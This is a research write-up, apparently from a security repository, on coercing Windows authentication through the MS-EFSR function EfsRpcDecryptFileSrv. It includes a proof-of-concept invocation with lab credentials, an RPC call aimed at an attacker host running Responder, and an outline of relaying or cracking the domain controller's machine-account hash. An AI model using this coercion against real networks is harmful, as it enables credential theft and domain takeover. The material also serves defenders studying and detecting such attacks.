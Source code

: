 # MS-EFSR - Remote call to EfsRpcDecryptFileSrv (opnum 5)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDecryptFileSrv('192.168.2.51\x00', 'test\x00', 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcDecryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] unsigned long OpenFlag
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **OpenFlag**: This parameter is unused and MUST be ignored by the server. It MUST be set to zero by the client.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31

 - Documentation of function `EfsRpcDecryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78